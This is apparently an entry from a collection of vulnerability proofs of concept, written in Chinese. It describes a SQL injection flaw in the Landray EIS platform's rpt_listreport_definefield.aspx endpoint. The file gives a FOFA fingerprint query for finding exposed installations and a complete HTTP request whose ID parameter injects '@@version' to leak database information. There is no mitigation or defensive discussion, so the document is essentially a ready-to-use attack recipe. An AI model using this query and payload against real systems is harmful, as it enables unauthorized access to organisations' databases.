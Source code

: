 ## 蓝凌EIS智慧协同平台rpt_listreport_definefield.aspx接口存在SQL注入漏洞

## fofa
```
icon_hash="953405444"||app="Landray-OA系统"
```


## poc
```
GET /SM/rpt_listreport_definefield.aspx?ID=2%20and%201=@@version--+ HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Upgrade-Insecure-Requests: 1
```

![8353ecc402034f2c617f991e8081a2b3](../../images/56cffa50-5864-49b4-bd42-f1b77b71214b.png)
